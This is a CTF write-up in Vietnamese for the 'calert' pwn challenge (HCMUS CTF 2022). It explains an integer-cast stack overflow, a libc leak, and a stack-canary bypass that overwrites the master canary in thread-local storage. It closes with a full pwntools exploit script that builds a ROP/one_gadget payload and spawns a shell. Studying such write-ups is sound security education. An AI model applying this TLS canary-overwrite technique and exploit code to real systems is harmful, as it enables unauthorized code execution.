






###### tags: `pwn` `tls` `canary`

# calert - HCMUS CTF 2022

Sau giải author hint đọc về "Thread Local Storage" nên t giải lại.

Chương trình chạy 2 thead, một cái là routine chính cái còn lại để alert timeout
```c=
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  pthread_t newthread; // [rsp+0h] [rbp-20h] BYREF
  pthread_t v4[3]; // [rsp+8h] [rbp-18h] BYREF

  v4[2] = __readfsqword(0x28u);
  sub_5567A28DB5BB();
  sem_init(&sem, 0, 0);
  pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, 0LL);
  pthread_create(v4, 0LL, (void *(*)(void *))sub_5567A28DB2A9, (void *)0x96);
  sem_wait(&sem);
  exit(0);
}
```

Trong main routine, do sai lầm trong cast biến `int` thành `usigned int` của hàm `read_buf` dẫn đến một cái buffer overflow khổng lồ.



Ngoài ra stack chưa được dọn nên còn có thể leak libc base (khoảng từ biến `v5` đến `v6`) bằng cách không nhập gì vào v5



Vướng mắc lúc đi thi là không có cách nào để leak canary (chỉ leak được có 127 bytes) cũng không brute được (vì hàm `read_buf` chỉ dừng lại khi nhận newline)

## Thread Local Storage 

*Cập nhật thêm sau :)) *

Link đọc về: 
https://chao-tic.github.io/blog/2018/12/25/tls#introduction
https://www.openwall.com/lists/oss-security/2018/02/27/5

Giá trị canary được lấy từ một cái struct được sinh ra mỗi khi chương trình tạo thread mới. Register `fs` chính là địa chỉ của struct này (trong thread hiện tại) và 0x28 mà ta thường thấy trong `fs:0x28` là offset của `stach_guard` trong struct này. 

```c=
  typedef struct
  {
    void *tcb;        /* Pointer to the TCB.  Not necessarily the
                 thread descriptor used by libpthread.  */
    dtv_t *dtv;
    void *self;       /* Pointer to the thread descriptor.  */
    int multiple_threads;
    int gscope_flag;
    uintptr_t sysinfo;
    uintptr_t stack_guard;
    uintptr_t pointer_guard;
    ...
  } tcbhead_t;
```

Vấn đề là struct này lại được lưu ở BÊN DƯỚI stack của thread ?? :v T chưa đọc kỹ nên cũng chưa biết nên sẽ cập nhật trong tương lại :v 




Vậy ta overwrite luôn canary "gốc" là bypass được canary check

## Những phát sinh khác khi overflow lượng lớn

### SIGSEGV trong atoi internal

T không biết mấy hàm internal này làm gì với stack (tương lai sẽ đọc sai :v) nhưng để vượt qua thì t sửa r8 thành một vùng writeable và thấy k còn lỗi nữa



## Code exploit 

Ban đầu t dùng rop chain `system('/bin/sh')` nhưng bị dính sigsegv khi close thread ?? (sẽ đọc trong tương lai :v)
```python=
chain = [rdi, 0x068732f6e69622f, rsi, writeable1, mov_ptr_rsi_rdi,
        rdi, writeable1, ret, libc.sym['system']]
```


nên t chuyển sang dùng one_gadget 

```python=
#!/usr/bin/env python3
from pwn import *

context.aslr = False
context.arch = 'amd64'
# host = '61.28.237.86'
# port = 1234
exe = './calert'
elf = ELF(exe)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
script = '''
b *0x0000555555555448  
b *0x0000555555555606
b *0x00005555555554bd
c
'''
if args.LOCAL:
    p = process(exe)
elif args.GDB:
    p = process(exe)
    gdb.attach(p, gdbscript=script)
else:
    p = remote(host, port)

def senddata(len, data):
    p.recvuntil(b'input: ')
    p.sendline(str(len).encode())
    p.send(data)

# leak libc base
senddata(-1, b'\n')
senddata(127, b'\n')
data = bytes.fromhex(p.recvline().decode())
xor_key = b'0123456789ABCDEF'
res = b''
for c, i in enumerate(data):
    res += (i ^ xor_key[c % 16]).to_bytes(1, 'little')

libc_base = u64(res[8:16]) - libc.sym['write'] - 100
log.info('leak libc base ' + hex(libc_base))
libc.address = libc_base

# get shell 
writeable1 = 0x1be370 + libc_base
writeable2 = 0x1be390 + libc_base
one_gadget = 0xcbd20 + libc_base
rdi = 0x0000000000026796 + libc_base
rsi = 0x000000000002890f + libc_base
rdx = 0x00000000000cb1cd + libc_base
mov_ptr_rsi_rdi = 0x0000000000118b7d + libc_base
ret = 0x00000000000a85da + libc_base
# chain = [rdi, 0x068732f6e69622f, rsi, writeable1, mov_ptr_rsi_rdi,
#         rdi, writeable1, ret, libc.sym['system']]
chain = [rsi, 0, rdx, 0, one_gadget]
rop_chain = b''.join(map(p64, chain))

payload = b'a'*0x108
payload += b'b'*8   # overwrite canary
payload += b'a'*8 + rop_chain
payload += cyclic(2224 - len(payload), n=8)
payload += p64(writeable2)
payload += cyclic(0x860+0x108 - len(payload), n=8)
payload += b'b'*8   # overwrite original canary
payload += b'\n'
senddata(-1, payload)

p.interactive()

```

Mặc dù code chạy trên môi trường local thôi nhưng chắc remote cũng tương tự